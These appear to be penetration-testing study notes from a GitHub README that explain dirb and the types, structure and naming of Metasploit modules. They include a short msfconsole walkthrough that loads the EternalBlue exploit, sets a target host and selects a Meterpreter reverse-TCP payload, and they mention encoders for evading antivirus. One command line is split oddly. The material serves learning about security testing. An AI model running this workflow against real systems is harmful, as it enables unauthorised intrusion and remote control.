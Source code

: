 # Step for penastration testing
1. Discover host or target in a network
    - Tools like:
        - **dirb** `https://www.kali.org/tools/dirb/`: DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary based attack against a web server and analyzing the responses.
2. Simulating attack
    - Tools like:
        - **msfconsole**: In msfconsole (part of the Metasploit Framework), a module refers to a self-contained component that performs a specific task. Modules are the building blocks of the framework and can be used to conduct various penetration testing activities, such as scanning, exploitation, and post-exploitation.
            - **Types of Modules in Metasploit**
                1. Exploit Modules
                    - Purpose: These modules are used to exploit vulnerabilities in a target system. Exploit modules contain the code necessary to take advantage of a specific vulnerability in the target software.
                    - Example: exploit/windows/smb/ms17_010_eternalblue (used to exploit the MS17-010 vulnerability in Windows).
                2. Auxiliary Modules
                    - Purpose: These modules perform tasks other than exploitation, such as scanning, sniffing, fuzzing, and information gathering. They help identify potential vulnerabilities or gather useful data about a target.
                    - Example: auxiliary/scanner/portscan/tcp (used for TCP port scanning).
                3. Payload Modules
                    - Purpose: A payload is the code that is executed on the target system after an exploit successfully compromises it. Payloads are typically used to establish a remote connection back to the attacker or to execute malicious code on the target.
                    - Example: windows/meterpreter/reverse_tcp (establishes a reverse connection to the attacker’s machine and provides a Meterpreter shell).
                4. Post Modules
                    - Purpose: These modules are used after successful exploitation to perform post-exploitation tasks, such as privilege escalation, gathering system information, or maintaining persistence on the target system.
                    - Example: post/windows/gather/enum_applications (collects information about installed applications on a compromised Windows machine).
                5. Encoder Modules
                    - Purpose: These are used to encode payloads in various formats, helping evade security mechanisms like antivirus or intrusion detection systems.
                    - Example: x86/shikata_ga_nai (an encoder that can be used to obfuscate payloads).
                6. NOP (No-Operation) Modules
                    - Purpose: These modules are used to generate strings of NOP instructions (No Operation) to ensure that payloads have proper alignment or to evade detection systems.
                    - Example: x86/single_byte (generates NOP instructions for x86 architectures).
            - **<span style="color: green;"><u>Structure of a Module</u></span>**
                - Every module in Metasploit typically consists of:

                    - **Module Name**: Defines the specific task of the module, e.g., exploit/windows/smb/ms17_010_eternalblue.
                    - **Options**: These are settings that need to be configured, such as RHOST (remote host) and LHOST (local host). Each module has a set of required and optional options.
                    - **Actions**: Some modules allow multiple actions, like different types of scanning in auxiliary modules.
            - **Example of a Module Workflow**
                - Consider the exploit module ms17_010_eternalblue. Here’s how you would interact with it:
                    1. <b>Use the Module:</n>
                        ``` use exploit/windows/smb/ms17_010_eternalblue ```
                    2. **Show Options (to see the configurable parameters):**
                        ``` show options ```
                    3. **Set Options (e.g., set the target host and payload):**
                        ``` set RHOST 192.168.1.5 set ```
                        ``` PAYLOAD windows/x64/meterpreter/reverse_tcp ```
                    4. **Run the Module:** ```run```
            - **Module Path Structure**
                - The naming convention of modules follows a specific directory structure that helps users easily identify the type of module. For example:
                    ```exploit/windows/smb/ms17_010_eternalblue```
                - **exploit**: Module type (exploit).
                - **windows**: Target operating system or platform.
                - **smb**: The service or protocol targeted (in this case, SMB).
                - **ms17_010_eternalblue**: The specific vulnerability or exploit.
            - Summary: 
                Modules in msfconsole are the core components that allow you to perform tasks like vulnerability exploitation, information gathering, payload execution, and post-exploitation activities. The modular nature of Metasploit makes it highly flexible and customizable, enabling penetration testers to mix and match different modules to fit their specific needs.


